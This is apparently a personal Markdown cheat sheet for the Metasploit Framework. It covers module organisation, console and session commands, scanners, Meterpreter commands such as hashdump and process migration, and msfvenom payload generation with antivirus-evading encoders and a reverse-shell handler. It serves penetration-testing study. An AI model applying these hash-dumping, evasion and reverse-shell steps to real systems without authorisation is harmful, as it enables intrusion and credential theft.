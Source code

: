 # General


<details>
<summary>
  
# Framework Organisation  
</summary>

**Modules** \
The modules are located at /opt/metasploit-framework/embedded/framework/modules

**Auxiliary:**
- Scanners
- crawlers
- fuzzers

**Encoders:** 
- Encode exploit and payload to trick signature-based antivirus

**Evasion:**
- Direct evasion attempts of antivirus software

**Exploits**
- Neatly organised by target

**NOPs**
- No operations, used as buffers to achive consisten payload size

**Payloads**
- Adapters: Conver payloads into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single powershell command that will execute the payload.
- Singles: Self-contained Payloads(add user, lauch calc.exe).
- Stagers: Form a connection to metasploit to download additional payloads(stages).
- Stages: Are loaded by the stager. Allows to use larger payload size.

**Post**
- Post-exploitation
</details>

# Basic Commands
`msfconsole` - Start metasploit console:  \
`help <command>` - Help  \
`history` - Show command history:  \
`show` - List modules and alike. Use `show -h` to see what can be showed \
`info <module>` - Show information about module  \
`search <what you want>` - Search \
`exit` - close metasploit

You can use many normal linux commands like in a linux terminal: `ls, cat, clear, ...`

# Contexts:
`use <module, e.g. exploit>` - With the `use` command we enter a module and start a new context for the selected module \
`back` - Exit context:  \
`info` - Info about context:  \
`show options` - List all available options(parameters)  \
`set <parameter> <value>` - Sets `<parameter>` to `<value>` \
`unset <parameter>` \
`unset all` - Unsets all parameters in the current context \
`setg` - Set parameter to default value across all contexts until you exit metasploit \
`unsetg` \
`exploit` - Run the exploit, use `-z` to run in background \
`check` - Check if target is vulnerable without exploiting. Not supported by all modules.

## Exploits
`show payloads` - show available payloads for the exploit

## Sessions:
Once a vulnerabilitay has successfully been exploited, a session is started.

`exploit -j` - launches the module as job in the background \
`background` - Sends the session to the background and presents the context prompt again \
`CTRL + Z` - Same as Background \
`sessions` - List sessions \
`sessions -i <session-number>` - Interact with the session

## Scanning
There are many many scanners use `search scanner <what_you_need>`
### UDP
**udp_sweep** \
`run` 

### SMB
**smb_enumshares** \
**smb_version**

# Database mode
`systemctl start postgresql` \
`msfdb init` \
`mfsconsole` \
`db_status` 

## Workspaces
`workspace -a` - add new workspace \
`-d` - delete \
`-h` - lists options \
`help` - lists the db backend commands \
`db_nmap` - runs nmap but stores results in db \

# Meterpreter
## Generl
Meterpreter runs in memory and therefore has no executable on the disk.
It is attached (running inside an other process).
Most Antivirus will still detect it, eventhough it is fairly stealthy.

## Commands
`help` - show commands \
`hashdump` - prints ntlm password hashes for all users it can find. Needs to be running in lsass.exe(local authority subsystem service). Migrate here first. \
`search` - search for files on the target system. \
`shell` - launch a regular command-line shell on that target system. CTRL+Z gets you back to meterpreter.

## Migrate
Once runnining one can migrate meterpreter to another process.
This can help escalate privileged and make the session more stable.
`getuid` - list the user with which meterpreter is running
`ps` - list all processes
`migrate <pid>` - migrate meterpreter to the process with "pid".

# Msfvenom
msfvenom replaced msfpayload and msfencode and allows you to generate payloads. \
`msfvenom -p <payload> <options>` - general syntax \
`msfvenom -p <OS/arch/shell/type> -f <format> -o <file_name> -e <encode_format> LHOST=<ip> LPORT=<port>` - example \
`-e <encode format>` - encode a payload. There are a variety of encoders available \
`-p <payload>` - select the payload \
`-f <format>` - output format. E.g. elf, raw, base64, exe, php, py, asp, ... \
`-o` - output file \
`LHOST=<ip>` - local ip \
`LPORT=<port>` - local port

## Staged vs Stageless payloads
`shell_<type>` - stageless \
`shell/<type>` - stages

## Handler
A handler catches an incomming connection from a payload (like a reverse shell) \
`use exploit/multi/handler` - can be used to catch incoming connections. Don't forget to set LHOST and LPORT. \




